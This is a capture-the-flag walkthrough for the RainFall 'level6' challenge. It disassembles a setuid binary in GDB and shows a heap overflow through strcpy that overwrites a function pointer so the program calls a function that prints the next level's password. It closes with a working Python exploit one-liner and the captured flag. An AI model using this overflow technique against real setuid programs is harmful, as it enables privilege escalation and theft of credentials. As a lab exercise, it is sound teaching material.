

# Level6

## Walkthrough

We list the files in the current home directory.

```bash
level6@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level6 level6   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level6 level6  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level6 level6 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
-rw-r--r--+ 1 level6 level6   65 Sep 23  2015 .pass
-rw-r--r--  1 level6 level6  675 Apr  3  2012 .profile
level6@RainFall:~$ file level6
level6: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xb1a5ce594393de0f273c64753cede6da01744479, not stripped
```

The file is owned by **level7** and has the **setuid** bit.

We list the functions inside the executable and analyze their assembly code with **GDB**.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini
```

There are 3 interesting functions: `main()`, `m()` and `n()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   ebp
   0x0804847d <+1>:     mov    ebp,esp
   0x0804847f <+3>:     and    esp,0xfffffff0
   0x08048482 <+6>:     sub    esp,0x20
   0x08048485 <+9>:     mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:    mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:    mov    edx,0x8048468
   0x080484aa <+46>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:    mov    DWORD PTR [eax],edx
   0x080484b0 <+52>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:    add    eax,0x4
   0x080484b6 <+58>:    mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:    mov    edx,eax
   0x080484ba <+62>:    mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:    mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:    mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:    call   eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
```

The `main()` function: 
- decrements the stack pointer
- calls `malloc()` twice (64 and 4 bytes) and stores the returned address in the stack
- gets the first argv argument from `ebp + 0xc` and calls `strcpy()` to copy it to the pointer returned from the first `malloc()` call
- calls the function located at the address `[esp + 0x18]`, by default it is `0x8048468`, the address of `m()`

```
(gdb) disas m
Dump of assembler code for function m:
   0x08048468 <+0>:     push   ebp
   0x08048469 <+1>:     mov    ebp,esp
   0x0804846b <+3>:     sub    esp,0x18
   0x0804846e <+6>:     mov    DWORD PTR [esp],0x80485d1
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret
End of assembler dump.
```

The `m()` function is not really interesting: it only prints `"Nope"` on stdout.

```
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   ebp
   0x08048455 <+1>:     mov    ebp,esp
   0x08048457 <+3>:     sub    esp,0x18
   0x0804845a <+6>:     mov    DWORD PTR [esp],0x80485b0
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```

The `n()` function calls `system("/bin/cat /home/user/level7/.pass")`.

From our analysis of the different functions, we figure out we have to replace the call to `m()` with `n()`, in order to get the password for this level.

We draw a diagram of the stack and the heap.



We know that `strcpy()` receives two arguments:
- a destination string which is the address of the first allocated memory zone (`0x804a008`)
- a source string which is the first argument value passed to the executable

And because we already know that the address located at `0x804a050` will be called by `main()`, we understand that we simply have to overflow the first memory zone to overwrite the second one with the `n()` address.

We calculate the difference of bytes between the 2 zones: `0x804a050` - `0x804a008` = `0x48` (72).

```bash
level6@RainFall:~$ ./level6 $(python -c "print('A' * 72 + '\x54\x84\x04\x08')")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
